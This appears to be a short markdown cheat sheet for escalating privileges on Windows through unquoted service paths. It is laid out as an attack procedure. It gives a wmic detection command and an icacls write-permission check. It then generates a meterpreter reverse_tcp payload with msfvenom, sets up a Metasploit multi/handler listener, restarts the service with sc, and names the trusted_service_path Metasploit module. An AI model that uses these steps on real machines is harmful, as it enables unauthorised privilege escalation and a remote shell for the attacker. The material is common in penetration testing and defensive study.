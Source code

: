 # Unquoted Service Paths

## Detection
```
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" | findstr /i /v "C:\Windows\\" |findstr /i /v """
```

## Example
Imagine service VulnService is affected
```
C:\Program Files\Vuln Service\program.exe # ImagePath value of VulnService
```
If we can put our malicious file in one of these ways, the file will run when the service is restarted.
```
C:\Program
C:\Program Files\Vuln
C:\Program Files\Vuln Service\program.exe
```
* If "C:\Program.exe" is not found, then "C:\Program Files\Vuln.exe" would be executed.<br>
* If "C:\Program Files\Vuln.exe" is not found, finally "C:\Program Files\Vuln Service\program.exe" would be executed.

## Check Permission
Check these folders for write privileges
```
icacls <path>
```
## Generate malicious exe with msfvenom
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=LOCAL_IP_ADDRESS LPORT=LOCAL_PORT –f exe > evil.exe
```
Upload the exe file to target machine and then 
```use exploit/multi/handler```
on metasploit. Finally, restart the service

## Service Restart
```
sc stop <service-name>
sc start <service-name>
```

## Exploiting Metasploit
```
exploit/windows/local/trusted_service_path
```

